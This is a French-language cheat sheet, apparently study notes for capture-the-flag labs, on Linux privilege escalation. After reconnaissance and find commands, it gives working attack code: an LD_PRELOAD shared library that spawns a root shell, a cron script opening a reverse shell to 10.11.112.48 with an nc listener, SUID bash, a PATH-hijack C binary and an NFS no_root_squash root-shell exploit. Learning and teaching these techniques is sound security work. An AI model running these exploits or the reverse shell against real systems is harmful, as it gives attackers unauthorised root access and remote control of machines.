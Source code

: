 # Escalade de Privilèges Linux

> [!INFO] Ce document contient les techniques et méthodes pour l'escalade de privilèges sur les systèmes Linux.

## Table des Matières

- [Reconnaissance initiale](#reconnaissance-initiale)
- [Recherche de fichiers](#recherche-de-fichiers)
- [Techniques d'élévation](#techniques-d%C3%A9l%C3%A9vation)
    - [LD_PRELOAD](#ld_preload)
    - [Capabilities](#capabilities)
    - [Crontab](#crontab)
    - [Variable PATH](#variable-path)
    - [NFS](#nfs)
- [Ressources](#ressources)

## Reconnaissance initiale

> [!TIP] Commencez toujours par ces commandes pour avoir une vue d'ensemble du système.

# Informations sur le système
hostname                # Nom de la machine
uname -a                # Informations kernel
cat /proc/version       # Version détaillée du système
cat /etc/issue          # Distribution Linux

# Informations sur l'utilisateur
id                      # Identité et groupes
sudo -l                 # Privilèges sudo

# Utilisateurs du système
cat /etc/passwd | grep home  # Liste des utilisateurs avec home
ls -la /etc/shadow      # Vérifier si on peut accéder au fichier shadow

# Processus et services
ps aux                  # Processus en cours d'exécution
ls -la                  # Fichiers dans le répertoire courant
env                     # Variables d'environnement

# Connexions réseau
netstat -ano            # Toutes les connexions
netstat -ltp            # Services en écoute (ports)

## Recherche de fichiers

> [!NOTE] La commande `find` est l'un des outils les plus puissants pour l'escalade de privilèges.

### Recherche par nom

bash

find . -name flag1.txt                  # Rechercher "flag1.txt" dans le répertoire courant
find /home -name flag1.txt              # Rechercher "flag1.txt" dans /home
find / -type d -name config             # Rechercher le dossier "config"

Recherche par permissions

find / -type f -perm 0777               # Fichiers avec droits 777 (tous les droits)
find / -perm a=x                        # Fichiers exécutables
find / -writable 2>/dev/null            # Fichiers modifiables (sans erreurs)
find / -writable -type d 2>/dev/null    # Dossiers modifiables
find / -perm -222 -type d 2>/dev/null   # Dossiers modifiables (autre méthode)
find / -perm -o w -type d 2>/dev/null   # Dossiers modifiables (autre méthode)
find / -perm -o x -type d 2>/dev/null   # Dossiers exécutables

Recherche de binaires

find / -name perl*                      # Binaires Perl
find / -name python*                    # Binaires Python
find / -name gcc*                       # Compilateur GCC

Recherche de fichiers SUID/SGID

find / -perm -u=s -type f 2>/dev/null   # Fichiers avec bit SUID/SGID

## Techniques d'élévation

### LD_PRELOAD

> [!WARNING] Cette technique nécessite que `LD_PRELOAD` soit présent dans `env_keep` pour sudo.

LD_PRELOAD permet à un programme d'utiliser des bibliothèques partagées. Avec la variable `env_keep`, vous pouvez générer une bibliothèque partagée avec votre propre code.

**Étapes:**

1. Vérifier si `LD_PRELOAD` est dans `env_keep` (avec `sudo -l`)
2. Créer un programme en C comme objet partagé
3. Lancer le programme en sudo avec LD_PRELOAD pointant vers votre .so

**Exemple de code (`shell.c`):**

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}

Compilation:

gcc -fPIC -shared -o shell.so shell.c -nostartfiles

Exécution:

sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

### Capabilities

Les capabilities permettent de donner des droits spécifiques à des processus.

getcap -r / 2>/dev/null    # Lister toutes les capabilities actives

### Crontab

Si vous pouvez modifier les tâches cron, vous pouvez obtenir un shell root.

**Exemple de script malveillant:**

#!/bin/bash
bash -i >& /dev/tcp/10.11.112.48/6666 0>&1

Configuration du listener:

nc -lvnp 6666    # Sur votre machine d'attaque

Alternative simple:

chmod u+s /bin/bash    # Si vous avez les droits d'écriture

### Variable PATH

La manipulation du PATH peut permettre l'exécution de code malveillant.

echo $PATH    # Afficher le PATH actuel

# Trouver les dossiers modifiables dans le PATH
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u

# Ajouter un dossier au PATH
export PATH=/tmp:$PATH    # Ajoute /tmp au début du PATH

Exemple d'exploitation avec un binaire C:

#include <unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("thm");    # Remplacer par la commande à intercepter
}

Compilation:

gcc exploit.c -o thm -w
chmod u+s thm

### NFS

Si un serveur NFS est installé avec l'option `no_root_squash`, vous pouvez créer un exécutable avec le bit SUID.

**Vérification:**

cat /etc/exports    # Chercher "no_root_squash"

**Étapes d'exploitation:**

1. Sur votre machine: `showmount -e <IP_CIBLE>`
2. Créer un point de montage: `mkdir /tmp/nfs && mount -o rw <IP_CIBLE>:<DOSSIER_CIBLE> /tmp/nfs`
3. Créer un script dans le dossier monté:
#include <stdio.h>
#include <stdlib.h>

int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
1. Compiler: `gcc -o root_shell nfs_exploit.c`
2. Définir SUID: `chmod u+s root_shell`
3. Exécuter sur la cible

## Ressources

- [GTFOBins](https://gtfobins.github.io/) - Binaires pouvant être exploités
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) - Guide d'escalade Linux
- [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation) - Astuces d'escalade de privilèges

#technique #linux #privilege-escalation